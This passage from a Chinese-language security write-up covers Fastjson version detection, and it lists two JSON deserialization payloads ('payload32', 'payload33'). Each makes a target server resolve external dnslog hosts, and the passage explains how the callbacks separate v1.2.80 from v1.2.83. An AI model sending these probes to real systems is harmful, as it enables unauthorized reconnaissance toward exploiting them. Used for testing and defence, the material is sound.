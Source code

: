 `payload32`：

```plain
[{"@type": "java.lang.AutoCloseable","@type": "java.io.ByteArrayOutputStream"},{"@type": "java.io.ByteArrayOutputStream"},{"@type": "java.net.InetSocketAddress"{"address":,"val": "mwhajokbdd.dgrh3.cn"}}]
```

[![](assets/1706959415-4017640e7c2c811fc0c42af6ac0c2afa.jpeg)](https://xzfile.aliyuncs.com/media/upload/picture/20240125203204-bf384d5a-bb7d-1.jpeg)[![](assets/1706959415-9c6f8d6eca434f965a6082b2047d1a77.jpeg)](https://xzfile.aliyuncs.com/media/upload/picture/20240125203205-bfcda83c-bb7d-1.jpeg)

### 2.4.4 v1.2.80 与 v1.2.83

需要准备两个`dnslog`地址，我这里`yakit`上开一个`dnslog.cn`开一个。  
`payload33`：

```plain
[{"@type": "java.lang.Exception","@type": "com.alibaba.fastjson.JSONException","x": {"@type": "java.net.InetSocketAddress"{"address":,"val": "xfjdbd.dnslog.cn"}}},{"@type": "java.lang.Exception","@type": "com.alibaba.fastjson.JSONException","message": {"@type": "java.net.InetSocketAddress"{"address":,"val": "uawcowbohf.dgrh3.cn"}}}]
```

如果第一个收到响应而第二个没有收到，说明版本为`1.2.80`：  
[![](assets/1706959415-c46fa667ca76440b4541830a4ef1ffa4.png)](https://cdn.nlark.com/yuque/0/2023/png/25360791/1697708407766-7b4f1a89-5189-4f84-875a-eb04a13a43ef.png)  